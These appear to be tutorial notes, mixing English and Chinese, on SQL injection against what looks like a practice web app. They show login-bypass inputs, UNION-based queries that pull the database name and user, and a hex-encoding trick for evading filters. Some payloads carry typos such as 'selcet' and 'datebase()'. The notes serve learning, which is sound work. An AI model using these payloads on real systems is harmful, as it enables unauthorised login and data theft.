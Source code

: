 From here we also have a way to log in WITHOUT USERNAME AND PASSWORD

```html
OneWay:
Example:
    Input:
        Username:admin
        Password:xxx' or 1=1 #//xxx is wrong but 1=1 is true so all is right
    The code will be:
        Select * from accounts where username = 'admin' and password = 'xxx' and 1=1 #'  
        //It is easy to see is right , but this vulns is too low
Another Way:
Example:
   Input:
      Username:admin' #
      Password:xxx//Anything
    The code will be:
        Select * from accounts where username = 'admin' # and password = 'xxx' 
        //This means the code after # are all comments(注释；也就是不会运行的)  
        //It is easy to see is right , but this vulns is low too
```

Also , if The Username Or Password have filter We can use Burp to change The value of username and password

**From GET(Search)**

```cpp
Such url as:index.php?page=user-info.php&username=zaid&password=123456&user-info-php-submit-button=View+Account+Details
This means maybe have SQLi 
You can try this url:index.php?page=user-info.php&username=zaid' order by 1#&password=123456&user-info-php-submit-button=View+Account+Details
//order by 1 :排列第一行的数据 
//The code after # can not be run , so the password can be anything
You can try this url:index.php?page=user-info.php&username=zaid' union selcet 1,2,3,4,5 #&password=123456&user-info-php-submit-button=View+Account+Details
Then you will get some info such as username=2 password=3 
then you can change 2 to datebase() change 3 to user() 
index.php?page=user-info.php&username=zaid' union selcet 1,datebase(),user(),4,5 #&password=123456&user-info-php-submit-button=View+Account+Details
We can get the name of datebase which stored use-info from Usename
//Because the example url will show a user-info SO YOU CAN GET THE NAME OF DATEBASE WHICH STORED [USER-INFO]
We can get the user of datebase which stored use-info from Password
//User means The Datebase owner
//吐槽一句，Sqlmap能找到这些SQLi吗，能的话就不用一个一个搞了qwq
```

**Note**

- Datebase Table Schema/Name Can Expresse In Hexadecimal(十六进制)

  ```
          Which will help you to bypass(绕过) some filters.

          *When you express it in Hexadecimal you need not input   ' ' JUST INPUT 0X12345678
  ```
